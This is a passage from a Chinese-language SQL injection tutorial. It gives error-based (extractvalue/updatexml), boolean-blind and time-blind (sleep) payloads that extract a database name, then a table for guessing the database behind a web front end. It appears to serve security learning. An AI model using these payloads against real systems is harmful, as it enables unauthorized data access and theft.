 ```sql
SELECT * FROM users WHERE id='2' and extractvalue(1,concat('^',(
    select database()  --+ 真正的查询语句
    ),'^')) --+

SELECT * FROM users WHERE id='2' and updatexml(1,concat('^',(
    select database()  --+ 真正的查询语句
    ),'^'),1) --+
```

### 2.2.3 盲注

#### 2.2.3.1 布尔盲注

##### 判断数据库名长度

改变length(database())=的数值，当条件为真时，页面就会正常显示

```sql
SELECT * FROM users WHERE id='2' and length(database())=1 --+
```

##### 判断数据库名

使用 sbustr 函数一位一位截取数据库名，如果为真，则页面正常显示

```sql
SELECT * FROM users WHERE id='2' and substr(database(),1,1)='s' --+
```

#### 2.2.3.2 时间盲注

当页面没有布尔状态时，可以通过观察页面响应时间是否变长来判断输入的条件是否正确。

```sql
SELECT * FROM users WHERE id='1' and sleep(10) -- +' LIMIT 0,1;
SELECT * FROM users WHERE id='1' and if((length(database())=8),sleep(10),1) --+
SELECT * FROM users WHERE id='1' and if((substr(database(),1,1)='s'),sleep(10),1) --+
```

# 3 数据库判断

## 3.1 常见前端与数据库类型匹配

| 前端语言 | 数据库 |
| - | - |
sap | sql server，Access
.net | sql server
php | PostgreSQL, Mysql
java | mysql, oracle

## 3.2 数据库标志性信息
